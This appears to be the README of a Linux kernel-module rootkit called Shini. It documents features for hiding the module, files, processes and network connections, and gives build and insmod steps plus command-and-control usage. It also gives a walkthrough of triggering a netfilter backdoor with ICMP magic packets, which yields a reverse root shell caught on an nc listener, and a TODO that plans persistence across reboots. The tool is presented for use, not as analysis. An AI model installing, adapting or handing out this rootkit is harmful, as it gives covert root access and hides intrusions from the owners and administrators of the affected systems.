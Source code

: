 # Intro

Shini is a modular lkm based rootkit(ring 0) for linux. Its purpose is to be simple, modular, 
generic (without relying on an architecture) and to segment its logical behavior from its hook methods.

# Features
  - exec any program with root privileges.
  - hide module (only itself).
  - hide files.
  - hide procresses.
  - hide tcp/udp (4 or 6, source or destination) connections.
  - netfilter backdoor.
 
# Dependencies
- gcc
- make
- linux headers
- insmod

# Tools

- shini/misc/cb, connect back. (the backdoor)
- shini/misc/cc, command and control (the client that will communicate with the rootkit).
- shini/scripts/bdt, backdoor trigger (a python script that will send icmp magic packets to the target).

# Build/Install

First you need to compile and load the lkm.

```console
# git clone https://github.com/Jin-Roh/shini
# cd shini/build
# make
# insmod shini.ko
```

Build and install the tools listed above.

```console
# cd shini/misc/
# ./install.sh
```

This shell script will be responsible for compiling, creating a folder in /etc/opt/ with a predetermined prefix, 
modifying the name of the programs and placing them in the folder created previously.

# Uninstall

```Just remove the module, if module_hide() are not commented in the main.c,``` 
```this will not work, it's necessary to reboot your vm.```

```console
# rmmod shini
```

# Standard Configuration

- prefix : .\_w00t1\_
- path   : /etc/opt/.\_w00t1\_/
- helper : /etc/opt/.\_w00t1\_/._w00t1_helper
- cb     : /etc/opt/.\_w00t1\_/._w00t1_cb
- cc     : /etc/opt/._w00t1_/._w00t1_cc

Read shini/misc/install.sh and shini/src/include/config.h files for more details.

# Usage
## Command and Control
```console
$ cd /shini/misc/cc/build
$ make
$ ./cc
```
or after run the install script.

```console
cd /etc/opt/._w00t1_/
./._w00t1_cc
```

The way to use it with examples will appear on the console.

```console
usage: 

./cc -e <exec>
./cc -h <value> -l <list>
./cc -s <value> -l <list>

<list>: 
	proc , hidden proc list
	file , hidden file list
	t4_s , hidden tcp4 source port list
	t4_d , hidden tcp4 dest port list
	t6_s , hidden tcp6 source port list
	t6_d , hidden tcp6 dest port list
	u4_s , ..
	u4_d , ..
	u6_s , ..
	u6_d , ..

example:

./cc -e /bin/sh        	 - exec /bin/sh as root
./cc -h 1878  -l proc  	 - hide pid 1878
./cc -s 1878  -l proc  	 - show pid 1878
./cc -h 14000 -l file  	 - hide ino 14000
./cc -h 22    -l t4_s  	 - hide tcp4 src  port 22
./cc -h 1337  -l u6_d  	 - hide udp6 dest port 1337

```

## Backdoor

On your machine, first listen to the connection on a port using nc, e.g.:
```console
$ nc -vvlp 4430
```

Still on your machine, run the ```bdt.py```(needs root) script with the correct parameters, e.g.: 

```console
# cd shini/scripts/bdt
# python2.7 bdt.py -t <target> -h <host> -p <port>
# python2.7 bdt.py -t 192.168.1.103 -h 192.168.1.100 -p 4430
[+] Data : backdoor!_192.168.1.100_4430_
[+] Packet sent!
```

- target, where the rootkit is installed.
- host, machine that receives the reverse connection.
- port, the port.
 
If all goes well, you will get a root shell on nc.

```console
$ nc -vvlp 4430
listening on [any] 4430 ...
192.168.1.103: inverse host lookup failed: 
connect to [192.168.1.100] from (UNKNOWN) [192.168.1.103] 49548
id
uid=0(root) gid=0(root) groups=0(root)
```

# Debug Messages

If syslog are installed:

```console
# tail -f /var/log/messages
```

Or:

```console
# dmesg | grep shini
```

# Tested on
 
- Linux 3.16.0-4-686-pae #1 SMP Debian 3.16.43-2+deb8u5 (2017-09-19) i686 GNU/Linux
- Linux 4.17.12-arch1-1-ARCH #1 SMP PREEMPT Fri Aug 3 07:16:41 UTC 2018 x86_64 GNU/Linux

# TODO
 
- persistence related to reboots (maybe the module infection technique, see references[4][7]).
- code documentation.
- better installation script.
- more tests, (mips, arm, powerpc, etc...).
- more tests, (kernel linux sources).

# References

[1] . https://elixir.bootlin.com/linux/v4.17.13/source
[2] . https://github.com/mncoppola/suterusu
[3] . http://phrack.org/issues/68/6.html#article  : Android platform based linux kernel rootkit, by dong-hoon you
[4] . http://phrack.org/issues/68/11.html#article : Infecting loadable kernel modules, by styx^
[5] . http://www.ouah.org/LKM_HACKING.html
[6] . http://phrack.org/issues/50/5.html#article  : Abuse of the Linux Kernel for Fun and Profit, by halflife
[7] . http://phrack.org/issues/61/13.html#article : Hacking the Linux Kernel Network Stack, by bioforge 
[8] . http://phrack.org/issues/61/10.html#article : Infecting loadable kernel modules, by truff

License
----
MIT
